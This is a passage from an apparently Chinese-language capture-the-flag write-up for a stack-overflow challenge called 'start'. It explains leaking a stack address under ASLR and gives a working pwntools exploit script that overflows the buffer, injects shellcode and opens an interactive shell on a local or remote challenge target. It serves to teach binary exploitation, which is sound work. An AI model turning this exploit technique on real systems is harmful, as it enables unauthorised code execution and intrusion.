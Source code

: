 具体寄存器的值与系统调用的关系：

| 寄存器 |     作用     |
| :----: | :----------: |
|  eax   |  中断类型号  |
|  ebx   | STDIN/STDOUT |
|  ecx   |  字符串地址  |
|  edx   |  字符串长度  |

因为栈是可执行的并且开启了 ASLR。我们的想法就是通过泄漏栈地址，然后填入 shellcode，跳转过去 getshell。

exp 如下：

```python
#!/usr/bin/env python
from pwn import *
local = 1
if local:
    p = process('./start')
else:
    p = remote('139.162.123.119', 10000)
write = 0x8048087
# gdb.attach(p)
offset = 20
payload = 'A' * offset + p32(write)
p.sendafter('CTF:', payload)
stack = u32(p.recv(4)) + 0x10
print 'stack:', hex(stack)
sh = open('sh.bin').read()
payload = 'A' * 20 + p32(stack + 4) + sh
p.send(payload)
p.interactive()
```

# 参考网站

https://linux.cn/article-8040-1.html
http://bestwing.me/2017/03/19/stack-overflow-two-ROP/
https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/
https://blog.csdn.net/white_eyes/article/details/7169199
https://b3t4m3ee.github.io/2018/07/10/Shellcode-s-Magic/
https://blog.csdn.net/Plus_RE/article/details/79199772
http://showlinkroom.me/2017/01/22/pwnable-tw/
